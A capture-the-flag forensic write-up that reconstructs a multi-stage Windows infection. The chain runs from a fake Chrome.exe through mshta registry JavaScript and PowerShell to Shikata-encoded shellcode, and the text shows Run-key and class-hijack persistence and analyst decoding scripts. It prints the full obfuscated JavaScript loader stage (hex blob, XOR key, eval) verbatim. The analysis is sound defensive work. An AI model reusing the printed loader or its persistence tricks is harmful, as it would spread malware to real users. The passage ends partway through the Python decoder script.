

# From Fake Chrome to Shikata Shellcode: Rebuilding a Multi-Stage Infection Step by Step

We pulled these [artifacts](https://drive.google.com/file/d/1jY9ts7WemYzjk_LdsNNAYFqbUg7P9phb/view?usp=sharing) from a fried workstation. A user downloaded something from a shady site, and shortly after, the machine started lagging and throwing weird popups.

**The Task:**

I need a full forensic breakdown, covering:

- **Attack Chain:** How did the infection start and what executed?
- **Persistence:** How is the malware surviving?
- **The Payload:** Find the final stage and explain exactly what it does.
- **IOCs:** Relevant IPs, domains, or hashes.

---

## Investigation

Primary artifacts:

- NTUSER.DAT (/C/Users/FlagYard/NTUSER.DAT)  - Sysmon EVTX (/C/Windows/System32/winevt/Logs/Microsoft-Windows-Sysmon%254Operational.evtx)
- PowerShell Operational EVTX (/C/Windows/System32/winevt/Logs/Microsoft-Windows-PowerShell%254Operational.evtx)
- 815624.bat (/C/Users/FlagYard/AppData/Local/ce3f5d/815624.bat)
- dcf991.9f2207a (/C/Users/FlagYard/AppData/Local/ce3f5d/dcf991.9f2207a)

1.  The attack chain
Run:

```jsx
strings -el /C/Windows/System32/winevt/Logs/Microsoft-Windows-Sysmon%254Operational.evtx > /tmp/sysmon_u16.txt

```

  # Initial execution (fake Chrome.exe / PDF- XChange masquerade)
  sed -n '1888,1970p' /tmp/sysmon_u16.txt

  # mshta reading HKCU\software\99qzf2N\hDF82oB  and spawning powershell
  sed -n '2188,2365p' /tmp/sysmon_u16.txt

  # Chrome injects regsvr32
  sed -n '6540,6648p' /tmp/sysmon_u16.txt

  # regsvr32 writes persistence keys
  sed -n '6668,6778p' /tmp/sysmon_u16.txt

  We can see:

  1. 2025-06-03 11:50:34.836 user runs C:\Users\FlagYard\Desktop\Chrome.exe (masquerading as PDF-XChange Viewer).
  2. 2025-06-03 11:50:35.894 mshta.exe executes JS reading HKCU\software\99qzf2N\hDF82oB.
  3. 2025-06-03 11:50:36.713 PowerShell launch (iex $env:zpztyd).
  4. 2025-06-03 11:53:35.699 Chrome injects into regsvr32.exe.
  5. 2025-06-03 11:53:38.553 regsvr32 sets class open command to mshta reading HKCU\software\lirs\orhmkbye.
  6. 2025-06-03 11:53:38.568 regsvr32 sets Run key to C:\Users\FlagYard\AppData\Local\ce3f5d\815624.bat.

1. Reproduce persistence artifacts
 Check the startup batch: /C/Users/FlagYard/AppData/Local/ce3f5d/815624.bat

```jsx
start "nqM1blK1X1LW8QWaOqHEwL" "%LOCALAPPDATA%\ce3f5d\dcf991.9f2207a"
```

So persistence is:

- HKCU\Software\Microsoft\Windows\CurrentVersion\Run -> 815624.bat.
- Hijacked class open command -> mshta -> registry JS HKCU\software\lirs\orhmkbye.

1. Extract the registry JS from orhmkbye
Dump the value:

```jsx
kLvh3rmbAeGborOYXmMcoozk = "8WCHTDQe8jL96TQ9UrgeBKPjYMKn";  YbeMpBSqmJu0xLiiFY = "UCi8CVAxBsRTPZUEArJ1WniFEMbZhbvZ7bT4TtNqfVfP";  E1NADdaQfJCMRCwTvMiHIV = "31KcBqdvSRicNaGH79Akyjr8VYTqMHS";  LvswLlrJn5Q2aBlvcnIgHLN = "K0saIir59yOVzRGi";  gHLNH5sSWpEwHlrvORD = "amz85ez4LHPAKhIVyklzqYhQZ9ubrfFAUTn";  BCRzEWHyiUk3EHeMfIfZ = "yjplgCEjHnGSb3WiRNG6V8B9EpvVrl3yJxwqz1";  NTIAIjOTgFH3acz3CWrlIB = "NrNz88D8tzLXOSP4Jvj1shdBh2BDxVNWZZecRqvrqEJv6";  XAvWazQNjwMDuxXebDRJz9u = "Z6g02LZ4YxcVVZEH48sHBlnhjcNegycDEh4";  Jhp39 = "692745272f1801051c24232568351a524b13301c4406784b71751c18370531120003733016543a0b073d232e7c123a1c595c250316150b58051f0b0b2c753b25534c7a0925351a746c5012293765314d0f141f1d28203203005b26390a33381442106c78541a25240a28201c2923441823144929515d1f0438733a2f5b0a354e5c231f09743a2f011c193e7b335e4c6e0136217618033913644f1346760f650b0030055603460b1c0f003b470c1c7b651e122b75706f6507307135000303217624101508372934332631754f640c44787b401d4b7c353931743f5200782b333b767d120e1f21380511650c3c2e3c5d652e1108730d530d504d5b7c601b1c0017252828212331263b350c0d5f7d1c01302173516555084e534c0642340d5201652f0a2f1f140e440a393c1526040c2957313e063c45205e030028172b3c28564d194d5f521d313b19762b0b0c3a1619161f1e1674002c1434257d3b13131d6b0e021d005b0a354e67141c406a33087b1216060528617e7c110c6f056f432a46200a0b17717f222f0510652a1c126f0c2e5b022f154669136e240275706f6522343c6f0d4c684c104c4709032509111841591c1875015476181d774879565d7f4f6c11141658312a4b261b3f232b5a034814787c715b637045565043562e184f56381347711915253e3d073719242f2a15354a4e673f04160523186b24011c5d5466185f5732107759694e0e7d0748745a4011312056220434036c5063165b2b3039254b794c5e52550a0c4c0707745f106c785438323342470d122037026f27025303030d0234317f4d282a72710d1f233f4c63230b2008136c19255e5a401d313b65755b1c052b1f7105472d637e051d220c18171148220a1618351b6a2b011b2920120c2d2c02143f0c23253a5c0f2403141d3f2e402d284108275f0f3d5d476732002535230b27017f7f4a153c61222f2a150542782d77093203113361071b3e090e3c01073f11125b0b0f0e3d0d79245f0c15077832100d0b792f260325102d223e28497a7176630f3f5547193a2027130d0127567d7539241a7f091803207415782240190c121c01323220406337225727316f0c51090a0633657f053f0507320335032c3567590c3d34011a2619021e616b055a321272010d2a25023d023633546c7414147e092b281925152b6b2e5c2a021c6633082f0c3c7a2d096d35302f2f6760341216013229291430267d1a71033b09192e205c3421161b0d30774c11543c1854680438223319127202697e432e0b234f15321b4e0d344733567a39210e3a3b5232215608227b33111f3571361137611c02505a2325281946053303572524250b1a2f0410203a636d21692636695e01092b212628210f700d7f3e370d5b07231f1576435b05637d31053c1914012e3a40353c0d4224114f44080f1a241b2030030c2b293a2c143059520121100d042207145a375d5a137b173f6b57382d2430470d01565660043232156f015113310a47505766243719633a0a322c036338250813216f037c3a1e0c32651d16363b3e701b1b071636630b0e3101050127303f13557f125a361d6e430d2e2d0e1003170f7a675d0b0a094c1b04023974286454411d381c3b0b17331c147e031d5a1b431014673d683a3a1131015d00321c220e743302661c05233e3f0f2e310320036e3e52556a0e7f3b3378041d2f373476625b19147a541d2936021d2502146d78643c0c2106162c235e06386f47380c2101273b183d1929503d6724021a1f0d212d5b360a221f305e1007251263541e5c082f6266054c2a21212b0b0a596d613b0a3c710c2b1e15033449074d30042e01232304213d4a3a596e1a1411205b1d1d302434790e2b3401033515381a2e543435123d61142d145a3458740773060f0b5c2d1d0e300008295700567e2a33160a091b3e32161e512362260c12040508361d477d3e045f3b3517117912191118167b2926643e3d2a211b10286103002d2f120b0c34281e787b166401027a5c06171f161603100a525d033d1918623f033721001001514e2c1d006730633700135008026d1e24021577073217061138360210321f1c0e08033b6200360a00070d12141a2c796e2d53233652793e0e2e31450a770502665a1a107a6b153600041e257d54551f6c3f1a021e0d1437411f0955163234440563022164672a35562325747f400e0e2200353051070a340f1c253a705311762223616766152d21223d211f5a41634a157f6b18502d150324473e637d65130e3b200744457e0d2c7e1c152f115904362024330c0e1b0c153d012f1657046a5e310f253a07723338165671077003137b71303008563f0d701e486e7114772e797f2a133405157a27752f1c091702062d1a07633a210913212e1d6a09110303101d0f0e0173291b2117520d77550c2f2f19262719330f500a11582819795902311f0f16032e0c7d715e0819086e0c040c3934284a1c7b120d2e020b175c463c7f351b5b1c24672f6726313a1216203702007621173c3434245c1b3d371b34260335011a5c7e306b3c0854533934392a180a2e027458421b0437542d360c0220357554551f6c3f0404280d2c43740022543847341862213a2104241f3529231f122b1a1b212540231054271a2f0410203a705f0d7225147b59190f2b55362f06375e537f3b0228710c203d3e0c385f007c1e2c283f283b333e1c4e353e724317010e5b0b003f24067828030f1e172320090e1b6a3f001423245c0e3e2a3856710c012a195f001c300a27130d03567a7d053a3a2c553b513b440d3c700d752f1c0914043432431a5d28074e101f141853191200082e09552b0729220635000525732d002d2d63270c450d0d5070204407684b7e141008013d0703017877771f16087e36380d472339751065110d003e0b0733462a6126046d354f2c176803281463632c323c1731090c340f3b3b05073e3c3e250f2b1c0e2962792f672c10096a04152d2f32301602797e461a2e2b5c0622083926406155560f00391f2f24342f287307096f24460c2e793e0d31682d2a3a3d2624777b1111312d48202426220a3b701c3021634e275f0f3d686316121f2e3e7518355d507f3e371b5c072b2a152916572d771a04293b503a3f2122080c066d023921467b181b37361e0823081f05040135282c59515f2d550f025c0e3e2a385671077003137b713c2c7a0a0e20053045656e3639156f7e08383f2f156337762a0412141e02224f046038074d2a22394061620e0f323a1d170b1314332d2107120e59592f3e34012e26442715536f0e42050d6e4a1c3a255e22762a0a5259631f0f1c7a1f383707282b0035532d227a1d20132411397a2e0c713137313f73103f3c176f3e305d2e301c22303233347e163d335d3a0e0d1b2d2066762b6b371b5f7c043b0b041915252c770c432c0476521639080726400711617b17393731010a3f1c4e06206e01021b2000240a2e17661235172c0d060522243a220036305419092b3d0420105d010b465411710223481331103506375e5f602f763561183b3623293403056c12391e013f60043149520c11081923651a4a351f202506132c150c11742614090919625e31543a1b00322d3a1e586c135d0e3955092d1b7b3c44082e0241565c353a035419143945021f69310120310d3a5b0a30471c5d28034e283e1b1f7b052b38123e05100a1136702d18222c2f5e260b00240515271e2812676f714b3d0d625c03140f56151c180a65636048220801240223420c286b367a120d18390b62341939520b075c34342f14021f1a2c1605323837183c0c261d34313b055e0556183f2706251c1d6640377d211b576766377c0547162e046201651c147a082e366b1b08195f11500f0333345a12312c28735d0a6f3c1a350f05180121643c292539051c1215120a27595c081e553c0a01351b304a605f110208205c77010d050a3e7520086344542f163a6b18546a2d1c384507720639293833203c4426432300501a143b24430b0e3c3d0d220500022b137c3a145b055101310e08102e0f15072b605c0c7814167b62011b27281c1e2f307e6d6e2a332b55192f002f161d51566632192132053420471c5d28034e2835311f62630e46050072090b013e291c3107173677140b2d05381916205c4b530a305d2f196a45332e3115380700277a776436217d6a7e031d223439600f4404160b3d3c182f00290b39005c2a3c3a3d633a6f3200382c2b2c17210c0c37262b24002224035c182506360e3072792378271b76733e377803330e7307036e471b0b150c0b3035100d3172037d0b142d1f2f242613286b033c0943121f35622b010c1c2e02265f310b0d271d18311b57212f0c061e3f3210243159511d62133d75783f15070f03230f2e5606783b3428750709372e170554297c2f66073f1e37283e185220384f153b1e11031f1b01361a030516180532283b090a017e2f1003211b0b74382a0e56750c561d0351473034010e1e0b111156797e102a026b3806173f23437c27432f180231131d36011774270c093f3521117d193f0e1f2e3c05221e2171020f36052178040b2b2f240b083f01146841335629125f471a003e01390c2a0f7f5d411f0e075f7c2f2300233f7b034c07163d31241802423e40180c753a1e3c2f63263f3b1930312f2c2121080711703805470b2a2c0b67353c000e3479502e7c0d2d5f7d1f1e30292733252b795303222a385f02293d471e314403790032331b0027023b385107326b05111b3e576315252630062a082e1c2c38110c2a0b02211e130b1e242d1a302a465f097903207549201e042e1c2e183546537b302435761c163d3a0c1a5a295d3f32071e0e64281f075e22235f0b3b3f01571c101e3a0e3215081b0e22382f12150b7d24005636001b223a211e047507460317705764231a1113090a0e5b794f0f240270270c031e33157e2c53781b33210e1d2d114277061c5f3f3e314369382f111c1f2c5122153122023e261822631b0029243b050b1e1e1e7c70230029234f571a312e112d3d35017c7c5e120c0c4f282c121f283c5a1353051d2d2f303912113d710813623101313b78366d2f02202c2f2731761c3601262f245800290d1b34210d105b20484f237c2c32537e040e2e2b3c237729624351350b275115322d10093a54556e21222d1b21380e38234e0826701a1f18254736153e3620061b18310b0d271c0c311b57212f0c041c3f3210243159520a48133d75783048071f03230f2e564d7b2b3428750706223a3d0554297c2f22043f1e37283e170b35384f153b1e1149082101361a030a041b2f32283b0905587f3f1003211b042c3a2a0e56750c590e007b47303401010e0b111156797e102816513806173f23417e1d432f180231591d1c011774270c0c2b2521117d193f471c143c05221e213c0225360521780b572915240b083f0e4d7c6b335629125f49193a3e01390c2a0b6867411f0e075025383300233f7b030106163d31241802453f7a180c753a11623963263f3b19307b3b16212108071139383f470b2a2c0b602306000e34795f706b372d5f7d1f1e793f0d33252b795307363a385f0229321a1e3144037900327a0c3a27023b385e15247b05111b3e572615352630062a073f081638110c2a0b00360e130b1e24220f242a465f0979036f6263201e042e1c2e183546537b302437770c163d3a0c15072b673f32071e0e613c1f075e22235f432f3f01571c101e3a180815081b0e227b3912150b7d24001d35001b223a211e006117460317705720361a1113090a01486d650f240270270c032433157e2c53301b09210e1d2d114177061c5f3f3e31447e122f111c1f2c52223f3122023e261b36591b00292434591c0e1e1e7c702c5c3e334f571a312e112e0735017c7c5101191c4f282c1210332b5a1353051d223f243912113d710702610b01313b7839353902202c2f273e2b1c2601262f24575f3e1d1b34210d105a23584f237c2c3d097e040e2e2b3c2c2b3f624351350b275115082d10093a5b0d7a21222d1b21380d39334e08267015450f0f4736153e3667063118310b0d28420e211b57212f03580a3f32102431560d1e62133d75783003072503230f2e59596f11342875070932392d0554297c2f6410151e37283e185436024f153b1e1e5b0b3101361a0305150c1532283b0905157e151003211b0b3f2e3a0e56750c5909176b4730340101441d2b1156797e1f7015513806173f23407d27432f18023e001e36011774270c423d3521117d193f0c0b3e3c05221e2e2c0225360521780b543d15240b083f0e036b51335629125f481a3a3e01390c2a0d6b5d411f0e075f353b3300233f7b0c5d06163d31241802432940180c753a11643973263f3b19307f2c2c2121080711712f3f470b2a2c0438353c000e34795f777f272d5f7d1f1e793c3733252b7953073600385f02293d001e31440379003d20183a27023b385105255105111b3e5760151f2630062a082f081638110c2a0b043634130b1e242d1c262a465f0979036e6163201e042e13770c2546537b30247e7636163d3a0c15063d5d3f32071e0e63281f075e22235f0b390501571c10112b0d1815081b0e227f3b12150b7d240f0e212a1b223a211e056207460317705763341a1113090a01486d4f0f2402702855171e33157e2c537b1b33210e1d2d1140603c1c5f3f3e314669282f111c1f230e20153122023e290a23731b002924341b1c1e1e1e7c70234629194f571a312e112e2d35017c7c51480c0c4f282c121f2f3f4a1353051d223a270312113d710702761b01313b7839333b28202c2f273e2e1c3601262f24575e3d371b34210d105820624f237c2c3d4f6a140e2e2b3c23713f584351350b280c15322d10093a5b0c7a1b222d1b21371f3b194e0826701a1d19254736153e362d042118310b0d271a0c1b1b57212f0c060a153210243159540958133d75783f10062503230f2e564c7b013428750709302d2d0554297c2039073f1e37283e185020284f153b1e11481c2101361a03055b183f32283b09055e6a051003211b0b3f393a0e56750c561c175147303401010c0a2b1156797e1f70027b3806173f23427d0d432f180231581e360117742703503f1f21117d193f461c043c05221e2e2f1535360521780b1d3d3f240b083f0e487f6b335629125f010d2a3e01390c25117f77411f0e075f7c3b3300233f7b0c5c07063d312418020e3e7a180c753a11213863263f3b1930322d3c2121080711363b05470b2a2c043f3606000e34795028681d2d5f7d1f1e792b3733252b79534c362a385f02293d431d0b44037900323d0c3a27023b385106315105111b3e572615252630062a082f1f3c38110c2a0b4a2224130b1e24220f2700465f09790c326263201e042e133e0c2546537b302b25771c163d3a0c15013e773f32071e0e603f25075e222350183b2f01571c101e3a1a1815081b0e22383802150b7d240054353a1b223a211e05622d460317705766371a1113090a0e5c7a650f2402702818172433157e2c537c1809210e1d2d110a74161c5f3f3e3e1b7f022f111c1f2c57362f3122023e261a36591b002924345c1f341e1e7c70234829234f571a31210a391735017c7c514b0d1c4f282c12103d28601353051d223f330312113d710858612101313b7836693838202c2f2731731f1c01262f2457152a1d1b34210d1f0134484f237c2c32517d040e2e2b3c237628624351350b275202222d10093a5b0e6d21222d1b21380e3b194e082670154418254736153e3666062118310b0d28440f1b1b57212f035e1d2f3210243156410948133d7578300e070f03230f2e5643783b3428750706232d2d0554297c2038132f1e37283e185221384f153b1e1e5b082101361a03055b182f32283b09055c7e2f1003211b0b76393a0e56750c565503514730340101471e2b1156797e1f3a01413806173f2c1e6927432f18023e02091c011774270c413c2521117d19301b1f143c05221e2e2c0135360521780b522905240b083f0e4c7c41335629125f041a003e01390c251f7c67411f0e075f353b0900233f7b030612063d31241802012a7a180c753a1e3c2f63263f3b193f222f3c2121080711382c3f470b2a2c0b672206000e34795f3d7f272d5f7d1f1e79280d33252b795c5b3500385f02293d450a21440379003230181027023b385105247b05111b3e576315252630062a073d091638110c2a045a2224130b1e2422452410465f0979032d6259201e042e1c28183546537b302437611c163d3a0c1a5e3d673f32071e0e642b35075e22235f40390501571c10112b0d1815081b0e2d253812150b7d240055223a1b223a21115c753d460317705763231a1113090a01017a4f0f2402702818030e33157e2c537a0f09210e1d2d1144743c1c5f3f3e3e1d7e282f111c1f230f35053122023e261b21591b00292434160b1e1e1e7c7023033d334f571a31210e3a2d35017c7c5e100e364f282c121f293c601353051d223f273912113d710858621b01313b7836212f2b2405210617210c0c37262b2f710b233503390f1d075d1d765f0a720d1b5f7914382e2f3705252c79764f31077f5f04272e23212a7d546e1f653f030706101237551b316b473c3418623d3b1b68201e50392f2228231c1b3a214538302215305e2d1f0b3f010e0b5a00365c7505152b21222a1b3e635864157a366a21372f2e77204306067d0428640525013126402428501c151e3c46082134230d13281a0c1132353b285707522b10033a3e003c13212f595a017717387f093d321a11130f05025a6e61002f150a0951002406337822400237240438342d3c14752c295a24233a035415150f09043c053867100f2d181018215c5c142d2a273a16205c497c420e552f09795f00481f2c162a131c7c580608081c533f2d311b31165e5d4612062d212513241d130b2211751b431b2c676436121630382b2b1472083537362f2f470b2a2c0b6321061c5e3d60572378271b5f7914382e2f3574092f0266471a1b1d572c361739071b72037d0b142d1f2a110217276008207b2001351f71361425132211312e210d160e1124155c7b2524250b1a2f0410203a705f0d72253d727766152b3e3a282625700d7f3b2b2d6d7c0d20130324472858026428383b200721254c3c3c0d422c0e3c46321e383d3425381f0f7413353a2a53045302290b3504142138030979621c6321006f483b237b20441e173c47575d22722d5501513b207d0766230d3837240405330c111f635c294110441b115209164408640152233b14362d35031636675d1d3e34021c093428166b0a165d061d6e5e0e211b0a3d01030966056032212169352c3647373b7510621b027f66242a2f123c7a2d096e271a2312741c212e023c2c2929220c2721241006247a082c370723271104273a58792378271b5f7914382e2f3705252f70047d3171764b2c261c45271f750d57103a04150011023f337808227b33111f35713611310b21280b2e390c02241111312d47231054271a2f0410203a705f0d72253d7173161e03211f230b250153543f1628730c33202e3e3f4a285f3039283b0d600435314d262f7d023921467b181b37361e0823081f0504283f02230b7a2b0c16272a0722121e497a71077003137b7130300a27130d0127567d753924067b1d1500207508693c653d061d635b3257021c722c0c53113e1f117b28191d300420112615143f160c0c1b3b493e173c3f240b08240237725105562d1979571e3a08013d070301787c064f071e5728281936233b70255301160b3120132438335021195b1c1a6632613e3f3f12162c2b2c17210c0c37262b2f7103305522660f7625051b620d1755336f08510048252a1f28370276624f1a700d6c1539104525257d08573160040f311a1f17377f1c336c1d40044466610a31072411350b3e220219312351267708305106372b29010b15734e2566516a62681e1602211033210b085e7f3f37235b22543615003f4a28591a2628152b14061b26510b2c6e27171e3c5c080f27211b0823000c741723140634026934350825162d2a205915445c02735439540024300f122217155301794c3227037b0d030c222807572079310d19210e0754203a5b013a423f1a660579172c2002007e52222c0c21033503003f675957312401151d24021e7a7e307b06346a61333103023f1729167a670332212162390068222b3f70135305163d312318270f3c7a2e005b3a3f253f74102b3f15163b2d18660d0c0c37262b2f710b2e272d342506360e3d60572e52571c0e540f097c22252b252f72755131000e5f06296a390715032f7d0b142d1f2a11023f337b15097f241a35355729151c102000361c18052c0e1108212e0925202a04372b0b182031450100600b147b59161e0025362827215d04790f7304710c203d3e0542782d060e27101e3f380437407226587a0215382c450b0006243413385d0f741f7a15161a056a2435090d140b78504050181a7f3c6e7a1810773b7d3417367a460c144c4106616a3a0f725507486f3863213b2e391e23392a23401c3c772540622a6c06311835383c113f3931203d252907005c303b125d7d5c192b1916465d36420c3f545c791c3103542d271e111053163575542a062e0235501f440464757b7f525d6f0b505a0e1f5b1a5e335f102a257b5b5a410103393520675f7a";  DytJP2tQpTFSCSPfCj = "JihKxAnKqmpPHXLXpFwSWS75itMzd9siGw";  iVzIlGRpmThwNOCL1KG = "dMu8EICKrYXXdxwaUrhHqwy9LmQoERde3472KqSopZ2";  SmjeHzofw6cwLeOb6BpRB = "X9S5J2H6uAeyQezWcwzPZrXk2IAWFPgBEU";  EzijgiB9PspsjpmUGT = "qJQTNYhedo17qygIRlh";  zWxyXEVqMTD9xOVPl4qJ = "9in6qk69cxs6u1MWY1vlmOG0LbrDUcoF5J";  wQ5kIBdQNgtKKtnlJzFYm5vi = "3DgKNXDhE2WOHzrFByxwYg4p6fhgkAwmZifaGWuxeJrc";  LqMt2n = "";  for(xQI8nL9yS = 0;  xQI8nL9yS < Jhp39.length;  xQI8nL9yS += 2)LqMt2n += String.fromCharCode(parseInt(Jhp39.substr(xQI8nL9yS, 2), 16));  kgyPNNw5dwbGQXunNbOgUy = "bc7XctQByu2UKFdc9YvmwhUB3gPQt72z";  pWnyRnFGYxfzvb9NaSF5drQ = "zrXXlTyHXew4xwhQf5lCndWx5qKO9cTvZDYMg";  CjqmG4rtcUjWCNzOLJpK = "pxr67Avhtw4dC5EZR";  sPDSdBAwGI1fFbcYkhESvZCV = "qEhOFTieJYw92DVqv9eS7JvtWHJTCbvFpV7";  OcxKNinMXDsMTZuSH8GpmV = "N1n1vRv9voSFMJfxHOQmTjoZd41ffvvUkdztWM9ZK0aZt";  BfynX5vgv6j = "3d4HUJViPevp9ok8rvVv0QXvQWKboVFEOvAbl0lgdlSlEwiy18D1dZ80WyIftDBf146xCO8OaZwDr";  Wcfvr3KUA7dQj = "";  for(s5tjXZAMqyTE0Zj = dUHeZSsh9Ein8ehXw = 0;  dUHeZSsh9Ein8ehXw < LqMt2n.length;  dUHeZSsh9Ein8ehXw++) {      Wcfvr3KUA7dQj += String.fromCharCode(LqMt2n.substr(dUHeZSsh9Ein8ehXw, 1).charCodeAt()^BfynX5vgv6j.substr(s5tjXZAMqyTE0Zj, 1).charCodeAt());      s5tjXZAMqyTE0Zj = (s5tjXZAMqyTE0Zj < BfynX5vgv6j.length - 1)?s5tjXZAMqyTE0Zj + 1:0;  }    debGISAgM8mZoOwhQl = "2THqj1AWcgvTh7aTBDtmQInzbMwQmTrIJbEwLk2wRLA";  L9abAniyzg0QJysBiOE = "2AQosRFzVVVFvWSO5";  G6ttaDIFtfXJ2rTTdCnLrm = "LnTu8pj7qE1o1uk9WOxG2URDId1qYH";  eval(Wcfvr3KUA7dQj);  dthS5nzOkjAWsQVGybC = "lapVyIgMFCDhGBkMY";  arTgKaUl7KUYRlKOz3pCA = "HgahwpeUlnHkCobMdwTbwtjAMDGwI7GFyV9idM4";  YBTJGZnZpktBQXq0wdkomLB = "BGQUvQLCa1GCSSoa5U6x3";  zBrSmpYsigYQbtw8fZqzdrel = "TXvxkwiywWNQtWoZc3fJq2xil7k9Jdkpgo266WuVst";  krqHBDMxarB2eoHmxkhm = "RQxQJFR7RBxKmbh68";  WVqaBpTVpt1M9ofdAOPggqR = "IcYyfpiGXQCm79GAnep3F2";
```

 This dump contains:

 - hex payload var: Jhp39
 - XOR key var: BfynX5vgv6j

1. Decode JS -> PowerShell -> Shikata shellcode  -> cmd echo blob
    
    Exact Scripts I Used
    
    dump_orhmkbye.sh
    
    ```jsx
    #!/usr/bin/env bash
    set -euo pipefail
    
    if [[ $# -lt 2 ]]; then
      echo "Usage: $0 <NTUSER.DAT path> <output txt path>" >&2
      exit 1
    fi
    
    NTUSER_HIVE="$1"
    OUT_TXT="$2"
    
    chntpw -e "$NTUSER_HIVE" <<'EOF' > "$OUT_TXT"
    cd \Software\lirs
    cat orhmkbye
    q
    y
    EOF
    
    echo "Wrote registry dump to: $OUT_TXT"
    
    ```
    
    recover_flag_from_orhmkbye.py 
    
    ```jsx
    #!/usr/bin/env python3
    """
    Recover the final blob from the decoded registry stage:
    HKCU\\Software\\lirs\\orhmkbye
    
    Input:
      - Text dump produced by chntpw "cat orhmkbye"
    
    Output:
      - Intermediate decoded artifacts (JS/PS/shellcode)
      - Recovered command blob from shellcode
      - Final 32-hex flag
    """
    
    from __future__ import annotations
    
    import argparse
    import base64
    import hashlib
    import re
    from pathlib import Path
    
    def sha256_hex(data: bytes) -> str:
        return hashlib.sha256(data).hexdigest()
    
    def parse_orhmkbye_dump(text: str) -> tuple[str, str]:
        hex_match = re.search(r'Jhp39\s*=\s*"([0-9a-f]+)"', text)
        key_match = re.search(r'BfynX5vgv6j\s*=\s*"([^"]+)"', text)
        if not hex_match or not key_match:
            raise ValueError("Could not find Jhp39/BfynX5vgv6j in dump file.")
        return hex_match.group(1), key_match.group(1)
    
    def decode_js(hex_payload: str, key: str) -> bytes:
        raw = bytes.fromhex(hex_payload)
        key_b = key.encode("ascii")
        return bytes(b ^ key_b[i % len(key_b)] for i, b in enumerate(raw))
    
    def extract_ps_from_js(js_blob: bytes) -> bytes:
        m = re.search(rb"FromBase64String\('([^']+)'\)", js_blob)
        if not m:
            raise ValueError("Could not locate FromBase64String('...') in decoded JS.")
        return base64.b64decode(m.group(1))
    
    def extract_sc32(ps_blob: bytes) -> bytes:
        m = re.search(rb"\$sc32\s*=\s*(.+?);\s*\n\s*#qzxth", ps_blob, flags=re.S)
        if not m:
            raise ValueError("Could not locate $sc32 byte array in decoded PowerShell.")
        nums = [
            int(tok, 16) if tok.startswith(b"0x") else int(tok)
            for tok in re.findall(rb"0x[0-9a-fA-F]+|\d+", m.group(1))
        ]
        return bytes(nums)
    
    def decode_shikata_stage(sc_blob: bytes) -> bytes:
        # This stage is x86 shellcode that self-decodes in-place.
        # We emulate just long enough for the decoder loop to complete.
        from unicorn import Uc, UC_ARCH_X86, UC_MODE_32, UC_HOOK_CODE  # type: ignore
        from unicorn.x86_const import UC_X86_REG_ECX, UC_X86_REG_EIP, UC_X86_REG_ESP  # type: ignore
    
        base = 0x01000000
        stack = 0x02000000
    
        uc = Uc(UC_ARCH_X86, UC_MODE_32)
        uc.mem_map(base, 0x2000)
        uc.mem_write(base, sc_blob)
        uc.mem_map(stack, 0x2000)
        uc.reg_write(UC_X86_REG_ESP, stack + 0x1000)
        uc.reg_write(UC_X86_REG_EIP, base)
    
        def hook_code(emu, addr, _size, _user_data):
            # Decoder loop exits when execution reaches base+0x1b with ECX=0.
            if addr == base + 0x1B and emu.reg_read(UC_X86_REG_ECX) == 0:
                emu.emu_stop()
    
        uc.hook_add(UC_HOOK_CODE, hook_code)
        uc.emu_start(base, base + len(sc_blob), count=5000)
        return bytes(uc.mem_read(base, len(sc_blob)))
    
    def extract_cmd_blob(decoded_sc: bytes) -> str:
        m = re.search(rb"cmd /c 'echo ([^']+)'", decoded_sc)
        if not m:
            raise ValueError("Could not find cmd /c 'echo ...' string in decoded shellcode.")
        raw = m.group(1).decode("latin1")
        return "".join(c for c in raw if c in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=")
    
    def decode_final_flag(blob: str) -> tuple[bytes, str, str]:
        # Stage 1: base64 decode, nibble-swap each byte, XOR 0x1f.
        x = bytes((((b >> 4) | (b << 4)) & 0xFF) ^ 0x1F for b in base64.b64decode(blob))
    
        # Stage 2: extract token window.
        token = x[15:47].decode("latin1")
    
        # Stage 3: convert token to final 32-hex flag.
        out = []
        for i, ch in enumerate(token):
            v = ord(ch) & 0xF
            if i > 0 and token[i - 1].isalpha():
                v = (v + 9) & 0xF
            out.append(format(v, "x"))
        return x, token, "".join(out)
    
    def write_artifact(path: Path, data: bytes) -> None:
        path.write_bytes(data)
        print(f"[+] Wrote {path} ({len(data)} bytes, sha256={sha256_hex(data)})")
    
    def main() -> None:
        parser = argparse.ArgumentParser(description="Recover challenge flag from orhmkbye registry dump.")
        parser.add_argument(
            "--dump",
            required=True,
            help="Path to text file produced by: chntpw -e NTUSER.DAT (cat orhmkbye)",
        )
        parser.add_argument(
            "--outdir",
            default="./recovered",
            help="Directory to write intermediate artifacts (default: ./recovered)",
        )
        args = parser.parse_args()
    
        dump_path = Path(args.dump)
        outdir = Path(args.outdir)
